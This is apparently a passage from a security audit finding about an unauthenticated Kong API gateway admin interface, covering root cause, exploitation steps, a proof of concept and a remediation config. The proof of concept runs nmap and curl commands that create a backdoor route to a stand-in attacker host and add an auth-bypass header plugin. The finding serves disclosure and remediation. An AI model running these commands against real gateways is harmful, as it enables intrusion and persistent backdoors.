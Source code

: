 **Root Cause Analysis:**
```yaml
# kong.yaml - Vulnerable configuration
admin_listen: 0.0.0.0:8001  # VULNERABILITY: Exposed to all networks
admin_listen_ssl: 0.0.0.0:8444

# Missing authentication configuration
# admin_api_uri: NOT_CONFIGURED
# admin_access_log: /dev/null  # VULNERABILITY: No audit logging
```

**Exploitation Vector:**
1. Discover administrative interface on port 8001/8444
2. Access without authentication requirements
3. Modify API gateway configuration to create backdoors
4. Install persistent access mechanisms

**Proof of Concept:**
```bash
# Administrative interface discovery
nmap -p 8001,8444 isectech.com

# Unauthenticated administrative access
curl -X GET "https://admin.isectech.com:8001/services"

# Create backdoor route
curl -X POST "https://admin.isectech.com:8001/routes" \
  -d "name=backdoor" \
  -d "hosts=isectech.com" \
  -d "paths=/admin-backdoor" \
  -d "service.url=http://attacker-controlled-server.com"

# Install authentication bypass plugin
curl -X POST "https://admin.isectech.com:8001/plugins" \
  -d "name=request-transformer" \
  -d "config.add.headers=X-Admin-Access:true"
```

**Technical Impact:**
- Complete API gateway compromise
- Universal authentication bypass capability
- All API keys and secrets accessible
- Persistent backdoor installation

**Immediate Technical Remediation:**
```yaml
# kong-secure.yaml
admin_listen: 127.0.0.1:8001  # SECURE: Local access only
admin_listen_ssl: 127.0.0.1:8444

# Enable authentication
admin_access_log: /var/log/kong/admin_access.log
admin_error_log: /var/log/kong/admin_error.log

# Administrative API authentication
plugins:
  - name: basic-auth
    config:
      hide_credentials: true
  - name: ip-restriction  
    config:
      allow: ["10.0.0.0/8", "192.168.0.0/16"]  # Internal networks only
```
